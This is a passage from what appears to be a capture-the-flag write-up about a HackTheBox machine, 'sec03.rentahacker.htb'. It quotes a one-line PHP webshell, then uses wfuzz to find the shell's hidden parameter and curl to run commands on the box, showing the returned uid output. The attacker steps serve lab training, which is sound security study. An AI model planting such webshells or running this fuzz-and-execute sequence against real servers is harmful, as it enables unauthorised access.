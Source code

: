     root@kali# curl -I http://sec03.rentahacker.htb/shell.php
    HTTP/1.1 200 OK
    Date: Sun, 25 Aug 2019 11:26:04 GMT
    Server: Apache/2.4.25 (Debian)
    Content-Type: text.md; charset=UTF-8



If it's anything like my `php` webshells, it's something simple like
`<?php system($_GET["cmd"]); ?>`. But to use that, I'll need to know
what parameter it's reading. I'll use `wfuzz` to try a bunch. As always,
I'll start this, see the length of the default response, kill it, and
add (in this case) `--hh 0` and start again. This finds the parameter:



    root@kali# wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://sec03.rentahacker.htb/shell.php?FUZZ=id --hh 0

    ********************************************************
    * Wfuzz 2.3.4 - The Web Fuzzer                         *
    ********************************************************

    Target: http://sec03.rentahacker.htb/shell.php?FUZZ=id
    Total requests: 2588

    ==================================================================
    ID   Response   Lines      Word         Chars          Payload
    ==================================================================

    000197:  C=200      1 L        3 W           61 Ch        "hidden"

    Total time: 55.28373
    Processed Requests: 2588
    Filtered Requests: 2587
    Requests/sec.: 46.81304



### RCE

I can test this out with curl:



    root@kali# curl http://sec03.rentahacker.htb/shell.php?hidden=id
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)



If I want to do any longer commands, I'll need to urlencode them. I can
have curl do that for me too:



    root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode "hidden=id"
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)



### Connectivity

